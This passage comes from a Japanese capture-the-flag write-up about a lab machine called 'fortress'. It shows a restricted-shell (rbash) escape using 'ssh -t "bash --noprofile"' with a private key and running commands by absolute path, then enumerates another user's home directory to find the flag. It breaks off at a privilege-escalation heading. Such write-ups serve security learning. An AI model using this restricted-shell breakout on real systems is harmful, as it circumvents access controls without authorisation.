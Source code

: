 ```sh
h4rdy:x:1002:1002::/home/h4rdy:/bin/rbash
```

そもそもどうやって制限されてるかというと、rbash（制限付き bash）のため。

```sh
h4rdy@fortress:~$ echo $0
-rbash
```

ssh の -t オプションで回避できた。

```sh
$ ssh h4rdy@10.10.154.39 -i ./id_rsa -t "bash --noprofile"

h4rdy@fortress:~$ echo $0
bash

h4rdy@fortress:~$ ls -al
Command 'ls' is available in '/bin/ls'
The command could not be located because '/bin' is not included in the PATH environment variable.
ls: command not found
```

絶対パスならコマンドを実行できる。

```sh
h4rdy@fortress:~$ /bin/ls -al
total 28
drwxr-xr-x 4 h4rdy h4rdy 4096 Jun 22 14:30 .
drwxr-xr-x 5 root  root  4096 Jul 25  2021 ..
-rw------- 1 h4rdy h4rdy  879 Jun 22 14:30 .bash_history
-r--r--r-- 1 root  root  3130 Jul 25  2021 .bashrc
drwx------ 2 h4rdy h4rdy 4096 Jun 22 14:03 .cache
-r--r--r-- 1 root  root    17 Jul 25  2021 .profile
drwxr-xr-x 2 h4rdy h4rdy 4096 Jul 25  2021 .ssh
```

フラグを見つけたが、すぐには読めない。

```sh
h4rdy@fortress:~$ /bin/ls -al ../j4x0n
total 32
drwxr-xr-x 3 j4x0n j4x0n 4096 Jul 26  2021 .
drwxr-xr-x 5 root  root  4096 Jul 25  2021 ..
lrwxrwxrwx 1 j4x0n j4x0n    9 Jul 26  2021 .bash_history -> /dev/null
-rw-r--r-- 1 j4x0n j4x0n  220 Jul 25  2021 .bash_logout
-rw-r--r-- 1 j4x0n j4x0n 3771 Jul 25  2021 .bashrc
-r--r--r-- 1 root  root   187 Jul 25  2021 endgame.txt
-rw-r--r-- 1 j4x0n j4x0n  655 Jul 25  2021 .profile
drwxr-xr-x 2 j4x0n j4x0n 4096 Jul 25  2021 .ssh
-r-------- 1 j4x0n j4x0n   33 Jul 25  2021 user.txt
```

## 権限昇格１
